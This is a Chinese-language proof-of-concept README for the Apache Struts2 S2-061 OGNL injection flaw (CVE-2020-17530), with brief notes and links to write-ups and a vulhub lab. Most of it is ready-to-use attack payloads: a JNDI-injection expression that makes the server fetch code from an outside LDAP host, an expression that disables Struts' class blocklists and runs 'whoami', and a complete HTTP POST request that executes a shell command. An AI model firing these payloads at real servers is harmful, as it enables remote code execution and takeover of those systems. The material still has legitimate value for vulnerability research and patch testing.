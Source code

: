 # Struts2 s2-061 Poc (CVE-2020-17530)

这个洞没那么严重，其实就是s2-059绕过，大家别想多

发散思维一下，这个beanMap类似于fastjson的命令执行。所以也可以构造一个jndi注入嘛 com.sun.rowset.JdbcRowSetImpl 也存在无参构造方法 DatasourceName也可以通过beamMap去操作

```
   public void setDataSourceName(String var1) throws SQLException {
        if (this.getDataSourceName() != null) {
            if (!this.getDataSourceName().equals(var1)) {
                super.setDataSourceName(var1);
                this.conn = null;
                this.ps = null;
                this.rs = null;
            }
        } else {
            super.setDataSourceName(var1);
        }

    }
```

最后通过getAutoCommit触发jndi注入


```
  public boolean getAutoCommit() throws SQLException {
        return this.conn.getAutoCommit();
    }
```

jndi payload


```
%{('Powered_by_Unicode_Potats0,enjoy_it').(#UnicodeSec = #application['org.apache.tomcat.InstanceManager']).(#rw=#UnicodeSec.newInstance('com.sun.rowset.JdbcRowSetImpl')).(#rw.setDataSourceName('ldap://192.168.3.254:10086/UnicodeSec')).(#rw.getDatabaseMetaData())}
```

命令执行payload


```
%{('Powered_by_Unicode_Potats0,enjoy_it').(#UnicodeSec = #application['org.apache.tomcat.InstanceManager']).(#potats0=#UnicodeSec.newInstance('org.apache.commons.collections.BeanMap')).(#stackvalue=#attr['struts.valueStack']).(#potats0.setBean(#stackvalue)).(#context=#potats0.get('context')).(#potats0.setBean(#context)).(#sm=#potats0.get('memberAccess')).(#emptySet=#UnicodeSec.newInstance('java.util.HashSet')).(#potats0.setBean(#sm)).(#potats0.put('excludedClasses',#emptySet)).(#potats0.put('excludedPackageNames',#emptySet)).(#exec=#UnicodeSec.newInstance('freemarker.template.utility.Execute')).(#cmd={'whoami'}).(#res=#exec.exec(#cmd))}
```

via：

https://mp.weixin.qq.com/s/skV6BsARvie33vV2R6SZKw

分析可以参考：

* https://mp.weixin.qq.com/s?__biz=MzUyMDEyNTkwNA==&mid=2247485085&idx=1&sn=f264cf31bb82ae957fb985b754890d41&chksm=f9ee6a22ce99e3349b94ef75f77e3c8dadf4ebf47a74921a547429d5180deba122f9593beefc&scene=132#wechat_redirect
* https://mp.weixin.qq.com/s/skV6BsARvie33vV2R6SZKw

VULHUB Struts2 S2-061：

https://github.com/vulhub/vulhub/tree/master/struts2/s2-061

PoC:


```
POST /index.action HTTP/1.1
Host: localhost:8080
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/80.0.3987.132 Safari/537.36
Connection: close
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryl7d1B1aGsV2wcZwF
Content-Length: 848

------WebKitFormBoundaryl7d1B1aGsV2wcZwF
Content-Disposition: form-data; name="id"

%{(#instancemanager=#application["org.apache.tomcat.InstanceManager"]).(#stack=#attr["com.opensymphony.xwork2.util.ValueStack.ValueStack"]).(#bean=#instancemanager.newInstance("org.apache.commons.collections.BeanMap")).(#bean.setBean(#stack)).(#context=#bean.get("context")).(#bean.setBean(#context)).(#macc=#bean.get("memberAccess")).(#bean.setBean(#macc)).(#emptyset=#instancemanager.newInstance("java.util.HashSet")).(#bean.put("excludedClasses",#emptyset)).(#bean.put("excludedPackageNames",#emptyset)).(#arglist=#instancemanager.newInstance("java.util.ArrayList")).(#arglist.add("echo 'forum.ywhack.com'")).(#execute=#instancemanager.newInstance("freemarker.template.utility.Execute")).(#execute.exec(#arglist))}
------WebKitFormBoundaryl7d1B1aGsV2wcZwF--
```

![](media/16096803266898/16096804259304.jpg)


![](media/16096803266898/16096804320786.jpg)


ref：

https://forum.ywhack.com/thread-114788-1-2.html